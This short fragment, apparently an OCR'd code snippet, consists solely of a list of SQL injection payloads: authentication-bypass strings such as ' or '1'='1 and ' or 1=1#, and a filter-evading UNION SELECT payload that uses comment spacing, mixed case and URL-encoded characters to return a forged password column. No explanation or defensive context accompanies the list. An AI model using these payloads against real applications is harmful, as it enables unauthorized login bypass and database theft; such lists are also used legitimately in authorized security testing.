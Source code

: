 ```sql
"or/**/1=1%00
'OR/**/1=1%00
-1%cf'/**/UnIon/**/SeLect/**/1,1,1/**/as/**/password,1,1,1/**/%23"
' or '1'='1
' or ''='
1
' or 1=1#
' or 1=1-- 
```
